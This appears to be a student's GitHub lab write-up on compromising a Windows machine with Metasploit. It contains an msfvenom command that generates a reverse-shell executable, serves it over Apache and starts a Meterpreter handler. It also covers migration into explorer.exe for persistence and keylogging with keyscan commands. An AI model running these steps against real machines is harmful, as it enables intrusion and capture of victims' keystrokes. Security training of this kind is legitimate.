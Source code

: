 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
```
Tested By :  Marella Dharanesh
Reg. no: 212222240062
```

Find the attackers ip address using ifconfig
## OUTPUT:
![img01](https://github.com/user-attachments/assets/48184a16-ab3e-44fe-8b73-be02546358c1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![img02](https://github.com/user-attachments/assets/96704f06-9b23-454b-b5f4-99890965686f)




copy the fun.exe into the apache /var/www/html folder
![img03](https://github.com/user-attachments/assets/6b6cb525-f9eb-4162-8080-bf518aef7a16)


Start apache server
sudo systemctl apache2 start

![img04](https://github.com/user-attachments/assets/c6d7a0c3-20a9-4f97-aa93-2340ae6618dc)



Check the status of apache2
![img05](https://github.com/user-attachments/assets/ab3a063a-5f1c-4634-9666-21a2c4df1ca4)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![img06](https://github.com/user-attachments/assets/9d2930e9-2ca2-4f41-a12d-f6bb464eeba7)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![img07](https://github.com/user-attachments/assets/a6d9de9f-0192-4578-912c-4f861fe8aa4a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![img08](https://github.com/user-attachments/assets/75c32eb4-7e41-4099-b807-0c216ab6f81f)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![img09](https://github.com/user-attachments/assets/bc0ae88a-5538-4752-9c80-3841d56107d1)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![img010](https://github.com/user-attachments/assets/22a7c2bf-649f-4651-ac16-793e7f4307fc)



keyscan_dump	Shows the keystrokes captured so far
![img011](https://github.com/user-attachments/assets/a8cfb90f-080e-490f-b546-b42be0d318f8)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
